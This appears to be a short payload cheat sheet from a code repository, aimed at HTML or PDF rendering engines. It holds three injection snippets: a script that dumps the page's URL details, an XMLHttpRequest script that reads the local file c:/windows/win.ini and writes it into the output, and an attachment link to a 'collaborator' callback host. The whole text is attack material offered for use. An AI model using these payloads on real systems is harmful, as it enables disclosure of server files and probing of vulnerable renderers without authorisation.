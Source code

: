 Click on [RAW] for better understanding, i'm too lazy to allign everything.

<script>
  document.write(window.location.href);
  document.write(window.location.hostname);
  document.write(window.location.pathname);
  document.write(window.location.protocol);
  document.write(window.location.host);
  document.write(window.location.port);
</script>
---------------------------------------------------------------
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///c:/windows/win.ini");
x.send();
</script>
------------------------------------------------------------------------------------------
<a rel='attachment' href='http://collaborator'>
